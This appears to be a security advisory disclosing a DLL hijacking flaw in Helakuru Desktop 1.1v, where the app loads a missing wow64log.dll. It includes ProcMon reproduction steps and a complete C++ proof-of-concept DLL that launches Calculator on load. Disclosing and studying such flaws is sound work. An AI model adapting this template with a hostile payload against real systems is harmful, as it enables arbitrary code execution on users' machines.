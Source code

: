 **DLL Hijacking Vulnerability in Helakuru Desktop**
---

**Summary**

The Helakuru Desktop version operates on both 64-bit and 32-bit architectures. During testing, it was identified that the program attempts to load wow64log.dll, which is not included by default in modern Windows operating systems. This results in a 'Name not found' error, exposing the program to a DLL Hijacking vulnerability. By crafting a malicious wow64log.dll, arbitrary code execution can be achieved.

**Affected Version**

Helakuru Desktop 1.1v

**Steps to Reproduce**

1. Monitor DLL Loading with ProcMon
 * ProcMon showing the CreateFile operation with "Name not found" for wow64log.dll
   ![Pasted image 20240925232040](https://github.com/user-attachments/assets/e3f552d8-bb3c-4c61-87ef-8a1dd5fa9bf0)

2. Create a Malicious wow64log.dll
``` C++
#include <windows.h>
#include <stdio.h>

void LaunchCalculator()
{
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    const char* calcCmd = "C:\\Windows\\System32\\calc.exe";

    if (!CreateProcessA(
        NULL,          
        (LPSTR)calcCmd, 
        NULL,          
        NULL,          
        FALSE,         
        0,             
        NULL,          
        NULL,          
        &si,           
        &pi))          
    {
        printf("CreateProcess failed (%d).\n", GetLastError());
    }
    else
    {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        LaunchCalculator();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

3. Run Helakuru Desktop
 * Launch Helakuru Desktop again. The malicious wow64log.dll will now be loaded into the program, triggering the Calculator as a demonstration of successful DLL injection.
 ![Pasted image 20240925233737](https://github.com/user-attachments/assets/d01f179e-e09d-45e1-8b04-2922102f7b69)

4. Verify DLL Load using ProcMon
 * Reopen ProcMon and observe that the wow64log.dll is successfully loaded this time, confirming that the custom DLL has been executed by the program.
   ![Pasted image 20240925232728](https://github.com/user-attachments/assets/985f373f-9e7a-4d4b-b3d3-0bed98710be4)

**Impact**: This vulnerability allows for arbitrary code execution.


